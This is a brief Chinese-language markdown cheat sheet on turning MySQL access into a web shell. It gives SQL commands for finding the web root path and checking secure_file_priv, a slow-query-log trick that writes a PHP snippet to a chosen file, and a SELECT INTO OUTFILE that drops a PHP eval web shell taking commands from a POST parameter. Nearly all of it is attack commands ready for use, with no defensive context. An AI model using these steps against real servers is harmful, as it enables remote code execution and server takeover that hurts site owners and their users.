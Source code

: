 ## 利用文件包含get shell

### 获取web绝对路径
select @@basedir;

### secure_file_priv
```sql
SHOW VARIABLES LIKE '%secure_file_priv%'; --结果为null时无法写入文件
```
修改my.ini:secure_file_priv =

## 利用日志getshell
```sql
set global slow_query_log=1; --开启慢查询日志
set global slow_query_log_file='dir\filename';
select '<?php phpinfo();?>' or sleep(11);
```
### 一般多少秒成为慢查询

```sql
show global variables like '%long_query_time%'
-- 默认10秒
```
## 文件写入

```sql
select '<?php @eval_r($_POST[cmd])?>'INTO OUTFILE '网站目录路径/eval.php'
```